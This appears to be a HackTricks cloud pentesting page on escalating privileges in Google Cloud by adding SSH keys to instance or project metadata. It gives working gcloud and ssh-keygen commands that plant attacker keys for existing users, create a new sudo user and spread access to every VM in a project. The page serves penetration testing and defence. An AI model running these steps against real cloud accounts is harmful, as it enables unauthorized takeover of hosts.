 # GCP - Add Custom SSH Metadata

## GCP - Add Custom SSH Metadata

{{#include ../../../../banners/hacktricks-training.md}}

### Modifying the metadata <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Metadata modification on an instance could lead to **significant security risks if an attacker gains the necessary permissions**.

#### **Incorporation of SSH Keys into Custom Metadata**

On GCP, **Linux systems** often execute scripts from the [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). A critical component of this is the [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), which is designed to **regularly check** the instance metadata endpoint for **updates to the authorized SSH public keys**.

Therefore, if an attacker can modify custom metadata, he could make the the daemon find a new public key, which will processed and **integrated into the local system**. The key will be added into `~/.ssh/authorized_keys` file of an **existing user or potentially creating a new user with `sudo` privileges**, depending on the key's format. And the attacker will be able to compromise the host.

#### **Add SSH key to existing privileged user**

1. **Examine Existing SSH Keys on the Instance:**

   - Execute the command to describe the instance and its metadata to locate existing SSH keys. The relevant section in the output will be under `metadata`, specifically the `ssh-keys` key.

     ```bash
     gcloud compute instances describe [INSTANCE] --zone [ZONE]
     ```

   - Pay attention to the format of the SSH keys: the username precedes the key, separated by a colon.

2. **Prepare a Text File for SSH Key Metadata:**
   - Save the details of usernames and their corresponding SSH keys into a text file named `meta.txt`. This is essential for preserving the existing keys while adding new ones.
3. **Generate a New SSH Key for the Target User (`alice` in this example):**

   - Use the `ssh-keygen` command to generate a new SSH key, ensuring that the comment field (`-C`) matches the target username.

     ```bash
     ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
     ```

   - Add the new public key to `meta.txt`, mimicking the format found in the instance's metadata.

4. **Update the Instance's SSH Key Metadata:**

   - Apply the updated SSH key metadata to the instance using the `gcloud compute instances add-metadata` command.

     ```bash
     gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
     ```

5. **Access the Instance Using the New SSH Key:**

   - Connect to the instance with SSH using the new key, accessing the shell in the context of the target user (`alice` in this example).

     ```bash
     ssh -i ./key alice@localhost
     sudo id
     ```

#### **Create a new privileged user and add a SSH key**

If no interesting user is found, it's possible to create a new one which will be given `sudo` privileges:

```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```

#### SSH keys at project level <a href="#sshing-around" id="sshing-around"></a>

It's possible to broaden the reach of SSH access to multiple Virtual Machines (VMs) in a cloud environment by **applying SSH keys at the project level**. This approach allows SSH access to any instance within the project that hasn't explicitly blocked project-wide SSH keys. Here's a summarized guide:

1. **Apply SSH Keys at the Project Level:**

   - Use the `gcloud compute project-info add-metadata` command to add SSH keys from `meta.txt` to the project's metadata. This action ensures that the SSH keys are recognized across all VMs in the project, unless a VM has the "Block project-wide SSH keys" option enabled.

     ```bash
     gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
     ```

2. **SSH into Instances Using Project-Wide Keys:**
   - With project-wide SSH keys in place, you can SSH into any instance within the project. Instances that do not block project-wide keys will accept the SSH key, granting access.
   - A direct method to SSH into an instance is using the `gcloud compute ssh [INSTANCE]` command. This command uses your current username and the SSH keys set at the project level to attempt access.

## References

- [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{{#include ../../../../banners/hacktricks-training.md}}






